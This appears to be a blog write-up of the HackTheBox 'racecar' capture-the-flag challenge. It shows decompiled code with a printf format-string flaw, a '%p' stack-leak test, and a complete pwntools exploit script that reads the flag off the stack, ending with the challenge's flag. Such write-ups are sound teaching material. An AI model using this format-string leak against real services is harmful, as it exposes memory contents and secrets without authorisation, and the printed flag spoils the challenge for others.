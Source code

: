 ```yaml
---
layout: post
title: Binary Exploitation&#58; HacktheBox/racecar
---
```


## HacktheBox racecar Write-up

First we check the file type.
```
└─$ file racecar 
racecar: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c5631a370f7704c44312f6692e1da56c25c1863c, not stripped
```

And the securities.
```
└─$ checksec --file=racecar             
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   96 Symbols	  No	0		3		racecar
```

Full RELRO, Canary, NX, and PIE. Seeing as this is an easy challenge, I am going to assume shell injection and buffer overflows are off the table.

### Reversing

Our vulnerability lies in the ```car_menu()``` function.
```c
    __format = (char *)malloc(0x171);
    __stream = fopen("flag.txt","r");
    if (__stream == (FILE *)0x0) {
      printf("%s[-] Could not open flag.txt. Please contact the creator.\n",&DAT_00011548,puVar5);
                    /* WARNING: Subroutine does not return */
      exit(0x69);
    }
    fgets(local_3c,0x2c,__stream);
    read(0,__format,0x170);
    puts(
        "\n\x1b[3mThe Man, the Myth, the Legend! The grand winner of the race wants the whole world  to know this: \x1b[0m"
        );
    printf(__format);
  }
```

Our flag is read into a ```char``` array on the stack, and we are prompted for our "Message to the press". Problem is, our input is used as the format string for a ```printf``` function. We can leverage this vulnerability to read arbitrary memory off the stack, and in our case, the flag.

### Pwn

To start, we need to find out what the offset of the flag is from the output of the ```printf()``` function. To do this, we can create our own ```flag.txt``` and input a value that will be easily identified.
```
python -c 'print b"\xef\xbe\xad\xde"' > flag.txt
```
[!] Do you have anything to say to the press after your big victory?
> %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 

The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: 
0x584e7200 0x170 0x565b8dfa 0x2f 0x8 0x26 0x2 0x1 0x565b996c 0x584e7200 0x584e7380 0xdeadbeef 0xf7f4000a 0xf7d22e45 0xa6989400 0x565b9d58 0x565bbf8c 0xffd1bd08 0x565b938d 0x565b9540
```

Now we know that our flag starts at offset 12. We can use this information to get a list of hex value from the remote server, and knowing that the flag starts at offset 12, we can hopefully find where the flag ends.
```
└─$ python exploit_test.py
[+] Opening connection to 157.245.32.12 on port 31587: Done
/home/jake/Desktop/HTB/Challenges/racecar/exploit_test.py:9: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("Name: ")
/home/jake/Desktop/HTB/Challenges/racecar/exploit_test.py:11: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("Nickname: ")
/home/jake/Desktop/HTB/Challenges/racecar/exploit_test.py:15: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("> ")
/home/jake/Desktop/HTB/Challenges/racecar/exploit_test.py:17: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("> ")
/home/jake/Desktop/HTB/Challenges/racecar/exploit_test.py:19: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("> ")
/home/jake/Desktop/HTB/Challenges/racecar/exploit_test.py:21: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("> ")
[b'0x56e6c1c0', b'0x170', b'0x56558dfa', b'0x4f', b'0x8', b'0x26', b'0x2', b'0x1', b'0x5655996c', b'0x56e6c1c0', b'0x56e6c340', b'0x7b425448', b'0x5f796877', b'0x5f643164', b'0x34735f31', b'0x745f3376', b'0x665f3368', b'0x5f67346c', b'0x745f6e30', b'0x355f3368', b'0x6b633474', b'0x7d213f', b'0x4c084500', b'0xf7ee63fc', b'0x5655bf8c', b'0xffc1c568', b'0x56559441', b'0x1', b'0xffc1c614', b'0xffc1c61c', b'0x4c084500', b'0xffc1c580', b'(nil)', b'(nil)', b'0xf7d29f21', b'0xf7ee6000', b'0xf7ee6000', b'(nil)', b'0xf7d29f21', b'0x1', b'0xffc1c614', b'0xffc1c61c', b'0xffc1c5a4', b'0x1', b'0xffc1c614', b'0xf7ee6000', b'0xf7f0470a', b'0xffc1c610', b'(nil)', b'0xf7ee6000', b'\n']
[*] Closed connection to 157.245.32.12 port 31587
```

Now we can just use an online hex-to-ascii converter to find where the flag ends. After doing this, we will see that the final offset for the flag is 21.

Time to craft an exploit.
```python
#!/usr/bin/env python3

from pwn import *

payload = b"%p " * 50

r = remote("209.97.134.177", 31378)

r.recvuntil("Name: ")
r.sendline(b"asdf")
r.recvuntil("Nickname: ")
r.sendline(b"asdf")
r.recvuntil(b"> ")
r.sendline(b"1")
r.recvuntil("> ")
r.sendline(b"2")
r.recvuntil("> ")
r.sendline(b"2")
r.recvuntil("> ")
r.sendline(b"1")
r.recvuntil("> ")

r.sendline(payload)
r.recvline()
r.recvline()

result = r.recvline().split(b" ")
# print(result)

# Need index 11-21 and convert it from hex to ascii
flag = ""

for i in range(11, 22):
    tmp = str(result[i][2:].decode())
    flag += bytearray.fromhex(tmp).decode()[::-1]

print(flag)
```

The exploit recieves the string, splits it into an array, then loops through the indecies we need. Once each element we need from the list is striped, converted, and reversed order we append it to the flag and print it out.
```
└─$ python exploit.py     
[+] Opening connection to 157.245.32.12 on port 31587: Done
/home/jake/Desktop/HTB/Challenges/racecar/exploit.py:9: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("Name: ")
/home/jake/Desktop/HTB/Challenges/racecar/exploit.py:11: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("Nickname: ")
/home/jake/Desktop/HTB/Challenges/racecar/exploit.py:15: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("> ")
/home/jake/Desktop/HTB/Challenges/racecar/exploit.py:17: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("> ")
/home/jake/Desktop/HTB/Challenges/racecar/exploit.py:19: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("> ")
/home/jake/Desktop/HTB/Challenges/racecar/exploit.py:21: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("> ")
HTB{why_d1d_1_s4v3_th3_fl4g_0n_th3_5t4ck?!}
[*] Closed connection to 157.245.32.12 port 31587
```

Et Voila!
